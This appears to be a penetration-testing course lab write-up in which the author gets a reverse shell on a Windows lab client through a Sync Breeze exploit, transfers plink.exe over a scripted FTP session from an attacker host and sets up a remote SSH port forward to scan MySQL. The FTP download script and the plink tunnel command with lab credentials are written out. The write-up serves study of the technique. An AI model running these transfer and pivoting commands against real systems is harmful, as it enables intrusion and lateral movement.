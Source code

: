 ### 20.3.1.1 Exercises

#### 1. Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.

Used the exploit we developed in lesson 11

![image-20200725212636026](.20.3.1.1.assets/image-20200725212636026.png)

![image-20200725212654105](.20.3.1.1.assets/image-20200725212654105.png)

#### 2. Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10 client.

1. Downloaded plink.exe version 0.70 on Kali since the version that came with Kali threw errors about algorithm negotiation and the latest version 0.74 didn't work through the reverse shell.  I also allowed ftp through the WIndows 10 firewall, because it blocks ftp transfers, then transferred it to Windows 10 via FTP:

   ```powershell
   echo open 192.168.119.216 21> ftp.txt
   echo USER offsec>> ftp.txt
echo lab>> ftp.txt
   echo bin >> ftp.txt
   echo GET plink.exe >> ftp.txt
   echo bye >> ftp.txt
   ```
   
   ![image-20200725214133379](.20.3.1.1.assets/image-20200725214133379.png)
   
2. Ran plink.exe through reverse shell:

   ```powershell
   cmd.exe /c echo y | plink.exe -ssh -sshlog plink.txt -l coyote -pw coyote -R 192.168.119.216:1234:127.0.0.1:3306 192.168.119.216
   ```

   ![image-20200725234305441](.20.3.1.1.assets/image-20200725234305441.png)
   ![image-20200725234347954](.20.3.1.1.assets/image-20200725234347954.png)

#### 3. Scan the MySQL port via the remote port forward.  

I had to start MySQL in XAMPP first, but even then the scan was not picking it up.  I had to stop MySQL and restart my plink connection, then rescan before it picked it up.

![image-20200725235032543](.20.3.1.1.assets/image-20200725235032543.png)